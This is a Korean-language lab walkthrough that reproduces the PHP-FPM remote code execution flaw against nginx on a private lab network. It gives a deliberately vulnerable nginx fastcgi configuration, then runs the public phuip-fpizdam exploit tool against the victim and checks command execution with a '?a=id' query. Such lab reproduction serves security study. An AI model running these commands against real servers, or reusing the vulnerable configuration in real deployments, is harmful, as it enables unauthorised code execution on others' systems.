


# [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**


***


# **Environment**

| Type       | OS              | IP              | App                             |
| :---       | :---            | :---            | :---                            |
| Victim     | Ubuntu 18.04.3  | 192.168.108.176 | php-fpm 7.2.10</br>nginx 1.14.0 |
| Attacker   | Kali 2019       | 192.168.108.132 |                                 |


# **Setting**

nginx 설치

```sh
root@srv:~# apt-get install -y nginx
root@srv:~# systemctl enable nginx
```

/etc/nginx/conf.d/default.conf를 다음과 같이 수정

```
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    root /usr/share/nginx/html;
    index index.html index.php;
    server_name _;
    location / {
        try_files $uri $uri/ =404;
    }
    location ~ [^/]\.php(/|$) {
        fastcgi_split_path_info ^(.+?\.php)(/.*)$;
        include fastcgi_params;
        fastcgi_param PATH_INFO $fastcgi_path_info;
        fastcgi_index index.php;
        fastcgi_param REDIRECT_STATUS 200;
        fastcgi_param SCRIPT_FILENAME /var/www/html$fastcgi_script_name;
        fastcgi_param DOCUMENT_ROOT /var/www/html;
        fastcgi_pass 127.0.0.1:9000;
    }
    location ~ /\.ht {
        deny all;
    }
}
```

/etc/nginx/nginx.conf를 다음과 같이 수정

```
user www-data;
worker_processes 1;
pid /var/run/nginx.pid;
error_log /var/log/nginx/error.log warn;
events {
    worker_connections 1024;
}
http {
    include /etc/nginx/mime.types;
    default_type application/octet-stream;
    log_format main '$remote_addr - $remote_user [$time_local] "$request" '
                    '$status $body_bytes_sent "$http_referer" '
                    '"$http_user_agent" "$http_x_forwarded_for"';
    access_log /var/log/nginx/access.log;
    sendfile on;
    keepalive_timeout 65;
    include /etc/nginx/conf.d/*.conf;
}
```

심볼릭 링크 설정

```sh
root@srv:~# ln -s /usr/lib/nginx/modules /etc/nginx/modules
```

php 설치

```sh
root@srv:~# tar -xf php-7.2.10.tar.gz
root@srv:~# apt-get -y install autoconf dpkg-dev file g++ gcc libc-dev make pkg-config re2c libxml2-dev libssl-dev libcurl4-openssl-dev libreadline-dev libedit-dev libsodium-dev argon2 libargon2-0 libargon2-0-dev
root@srv:~# ./configure '--build=x86_64-linux-gnu' '--with-config-file-path=/usr/local/etc/php' '--with-config-file-scan-dir=/usr/local/etc/php/conf.d' '--enable-option-checking=fatal' '--with-mhash' '--enable-ftp' '--enable-mbstring' '--enable-mysqlnd' '--with-password-argon2' '--with-sodium=shared' '--with-curl' '--with-libedit' '--with-openssl' '--with-zlib' '--with-libdir=lib/x86_64-linux-gnu' '--enable-fpm' '--with-fpm-user=www-data' '--with-fpm-group=www-data' '--disable-cgi' 'build_alias=x86_64-linux-gnu'
root@srv:~# make && make install
```

/usr/local/etc/php-fpm.conf에는 include=etc/php-fpm.d/*.conf를 입력

/usr/local/etc/pear.conf는 다음과 같이 입력

```
#PEAR_Config 0.9
a:33:{s:9:"cache_dir";s:15:"/tmp/pear/cache";s:15:"default_channel";s:12:"pear.php.net";s:16:"preferred_mirror";s:12:"pear.php.net";s:13:"remote_config";s:0:"";s:13:"auto_discover";i:0;s:13:"master_server";s:12:"pear.php.net";s:10:"http_proxy";s:0:"";s:7:"php_dir";s:18:"/usr/local/lib/php";s:7:"ext_dir";s:55:"/usr/local/lib/php/extensions/no-debug-non-zts-20170718";s:7:"doc_dir";s:22:"/usr/local/lib/php/doc";s:7:"bin_dir";s:14:"/usr/local/bin";s:8:"data_dir";s:23:"/usr/local/lib/php/data";s:7:"cfg_dir";s:22:"/usr/local/lib/php/cfg";s:7:"www_dir";s:25:"/usr/local/lib/php/htdocs";s:7:"man_dir";s:28:"/usr/local/lib/php/local/man";s:8:"test_dir";s:23:"/usr/local/lib/php/test";s:8:"temp_dir";s:14:"/tmp/pear/temp";s:12:"download_dir";s:18:"/tmp/pear/download";s:7:"php_bin";s:18:"/usr/local/bin/php";s:10:"php_prefix";s:0:"";s:10:"php_suffix";s:0:"";s:7:"php_ini";s:0:"";s:12:"metadata_dir";s:0:"";s:8:"username";s:0:"";s:8:"password";s:0:"";s:7:"verbose";i:1;s:15:"preferred_state";s:6:"stable";s:5:"umask";i:18;s:9:"cache_ttl";i:3600;s:8:"sig_type";s:3:"gpg";s:7:"sig_bin";s:18:"/usr/local/bin/gpg";s:9:"sig_keyid";s:0:"";s:10:"sig_keydir";s:23:"/usr/local/etc/pearkeys";}
```

/usr/local/etc/php-fpm.d/www.conf에는 다음과 같이 입력

```
[www]
user = www-data
group = www-data
listen = 127.0.0.1:9000
pm = dynamic
pm.max_children = 5
pm.start_servers = 2
pm.min_spare_servers = 1
pm.max_spare_servers = 3
```

/usr/local/etc/php/php.init에는 다음을 수정

```
display_errors = Off
display_startup_errors = Off
log_errors = Off
```

/etc/profile에 nohup php-fpm -D > /dev/null 추가

systemctl restart nginx를 통해 nginx 자동 실행 설정

/var/www/html에 index.php 등록


# **Exploit**

공격도구 설치

```sh
root@attack:~# apt-get install golang
root@attack:~# go get github.com/neex/phuip-fpizdam
root@attack:~# go install github.com/neex/phuip-fpizdam
root@attack:~# cd go/bin
```

공격도구 실행

```sh
root@attack:~# ./phuip-fpizdam http://192.168.108.176/index.php
```



브라우저를 통해 http://192.168.108.176/index.php?a=id를 입력하여 exploit 확인

